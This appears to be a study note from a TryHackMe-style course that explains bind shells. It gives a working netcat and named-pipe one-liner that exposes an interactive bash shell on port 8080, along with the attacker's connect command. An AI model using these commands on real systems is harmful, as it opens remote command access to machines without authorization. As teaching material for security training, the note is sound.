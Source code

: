 # 🌐 Bind Shells

## 📋 Purpose

A **bind shell** opens a port on a compromised target to listen for incoming connections, exposing a shell for remote command execution. It’s used when outgoing connections are blocked but is less common due to potential detection.

## 🔍 How Bind Shells Work

- **Setup**: The attacker runs a command on the target to bind a port and expose a shell.
- **Connection**: The attacker connects to the target’s open port to interact with the shell.
- **Challenge**: Requires the port to remain open, increasing detection risk.

## 🚀 Example Bind Shell Setup

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

- **Breakdown**:
    - `rm -f /tmp/f`: Removes existing named pipe.
    - `mkfifo /tmp/f`: Creates a named pipe for two-way communication.
    - `cat /tmp/f | bash -i 2>&1`: Reads pipe input, sends to interactive bash shell, redirects errors.
    - `nc -l 0.0.0.0 8080`: Listens on all interfaces, port 8080.
    - `> /tmp/f`: Sends output back to the pipe.
- **Port Note**: Ports below 1024 require elevated privileges; 8080 avoids this.

## 🛠 Attacker Connection

```bash
nc -nv <target-ip> 8080  # Connects to the bind shell
```

- **Options**:
    - `-n`: Disables DNS resolution.
    - `-v`: Enables verbose output.
- **Result**: Provides a shell prompt (e.g., `target@tryhackme:~$`) for command execution.

## ✅ Quick Notes

- **Bind Shell**: A shell that opens a specific port on the target for incoming attacker connections.
- **Privileged Ports**: Ports below 1024 require root access or elevated permissions.
- **Use Case**: Useful when reverse shells are blocked by firewalls.  
    --Web shells can be written in several languages supported by web servers, like PHP, ASP, JSP, and even simple CGI scripts.